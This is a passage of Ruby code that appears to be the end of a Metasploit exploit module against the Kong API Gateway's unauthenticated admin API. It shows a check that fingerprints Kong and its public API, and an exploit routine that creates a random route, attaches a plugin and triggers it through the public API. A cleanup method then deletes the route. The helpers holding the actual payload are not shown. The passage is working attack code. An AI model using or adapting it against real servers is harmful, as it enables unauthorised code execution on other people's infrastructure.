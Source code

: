```
      end
      raise
    end
  end

  def delete_route
    path = normalize_uri(target_uri.path, 'routes', @rand_name)

    # Delete it
    response = send_request_cgi({ 'method' => 'DELETE', 'uri' => path })
    check_response(response, 204, path, 'deleting route')

    # Check Whether it deleted
    response = send_request_cgi({ 'uri' => path })
    check_response(response, 404, path, 'verifying that route has been deleted')
  end

  def check
    @route_cleanup_required = false
    # Check admin API
    response = send_request_cgi
    return CheckCode::Unknown unless response
    return CheckCode::Safe unless response.get_json_document['tagline'] == 'Welcome to kong'

    # Check public API
    rhost = datastore['PUBLIC-API-RHOST'] if datastore['PUBLIC-API-RHOST']
    rport = datastore['PUBLIC-API-RPORT'] if datastore['PUBLIC-API-RPORT']
    path = normalize_uri(target_uri.path, @rand_name)
    response = send_request_cgi({ 'rport' => rport, 'rhost' => rhost, 'uri' => path })
    return CheckCode::Unknown unless response
    return CheckCode::Safe unless response.get_json_document['message'] == 'no Route matched with those values'

    CheckCode::Appears
  end

  def exploit
    @rand_name = rand_text_alphanumeric(10)
    @route_cleanup_required = false
    fail_with(Failure::UnexpectedReply, 'Admin API not detected') unless check == CheckCode::Appears
    @route_cleanup_required = true
    create_route
    vprint_good("Created route #{@rand_name}")
    create_plugin
    vprint_good("Created plugin for route #{@rand_name}")
    request_route
    vprint_good("Requested route #{@rand_name} using public API")
  end

  def cleanup
    return unless @route_cleanup_required

    delete_route
    vprint_good("Deleted route #{@rand_name}")
  end
end

```
